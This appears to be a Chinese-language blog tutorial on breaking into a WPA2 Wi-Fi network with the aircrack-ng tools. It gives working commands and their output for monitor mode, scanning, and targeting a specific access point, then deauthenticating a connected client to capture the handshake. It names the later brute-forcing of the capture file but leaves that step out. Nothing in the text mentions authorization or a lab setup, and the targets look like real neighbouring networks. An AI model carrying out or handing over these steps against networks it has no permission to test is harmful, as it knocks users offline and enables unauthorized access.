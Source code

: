 ```yaml
---
title: 渗透攻击目标无线网络
---
```


1：确认网卡名称 `iwconfig`

2：设置监听模式：`airmon-ng start wlan0`

> 注意！
>
> 这里如果出错：ERROR adding monitor mode interface: command failed: Operation not supported (-95)。
>
> 这是博通的一个问题，可以通过以下方式解决。
>
> `sudo rmmod brcmfmac`
>
> `sudo modprobe brcmfmac`

3：扫描附近 WIFI：`airodump-ng wlan0mon`，例如扫描到以下结果：

```shell
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 58:41:20:A9:B8:F6  -82        3        0    0   1  540   WPA2 CCMP   PSK  TP-LINK_B8F6ZM
 E2:95:49:AE:9D:CB  -83        3        0    0   1  400   WPA2 CCMP   PSK  HUAWEI-1A1HZ3
 74:45:2D:21:17:E8  -83        2        0    0   6  360   WPA2 CCMP   PSK  HUAWEI-888
 24:06:F2:15:BB:11  -67        5        0    0  10  130   WPA2 CCMP   PSK  CU_PsRx
 BC:54:FC:29:3E:0A  -85        2        0    0  13  270   WPA2 CCMP   PSK  MERCURY_6413
 B0:45:02:86:79:7C  -81        4        0    0   6  360   WPA2 CCMP   PSK  HUAWEI-0E1H2P
```

以下例子以 ` 74:45:2D:21:17:E8  -83        2        0    0   6  360   WPA2 CCMP   PSK  HUAWEI-888` 为例。

4：监听某个 WIFI 的流量：`airodump-ng -w tplink -c 6 --bssid  74:45:2D:21:17:E8 wlan0mon`，其中 `-w` 就用固定值即可，伪装一下， `-c` 是信道，`--bssid` 就是我们要渗透的无线热点的 MAC。

我们得到以下客户端：

```shell
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 74:45:2D:21:17:E8  -74  48      186       11    0   6  360   WPA2 CCMP   PSK  HUAWEI-888

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 74:45:2D:21:17:E8  E0:BA:AD:27:9A:00   -1    1e- 0      0        1
```

不要关闭这个窗口！

5：`一定要新开一个窗口!` 来攻击这个无线的客户端来抓取握手包，这个过程中客户端会不停的尝试连接 WIFI，网络状态是无法上网的，所以可以认为是一种另类的攻击方式，当然我们不想要攻击客户端，我们要的是渗透。
这里的 `-0` 代表攻击次数，可以多一点。`-a` 代表 WIFI 的 MAC，`-c` 就是这个 WIFI 下面客户端的 MAC。

```shell
$ sudo aireplay-ng -0 100 -a 74:45:2D:21:17:E8 -c E0:BA:AD:27:9A:00 wlan0mon
05:35:34  Waiting for beacon frame (BSSID: 74:45:2D:21:17:E8) on channel 6
05:35:34  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:35  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:35  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:36  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:36  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 1 ACKs]
05:35:37  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:38  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:38  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 1 ACKs]
05:35:39  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:39  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:40  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:40  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:41  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:41  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:42  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
```

6：回到之前的窗口，这时候我们可以看到 WIFI 状态中客户端有很多 `Lost`：

```shell
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 74:45:2D:21:17:E8  -40  51      438       97    0   6  360   WPA2 CCMP   PSK  HUAWEI-888

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 74:45:2D:21:17:E8  E0:BA:AD:27:9A:00  -82    1e- 1   1030    29437
```

如果出现 `WPA handshake: E0:BA:AD:27:9A:00` 字样就代表握手包已经抓取到了，也会根据提示保存在 `xxx.cap` 文件中。

7：啊，接下去就是爆破这个 `xxx.cap` 文件的过程了，太黑了，就不说了，爆破完了就能获取到这个 WIFI 的连接密码。
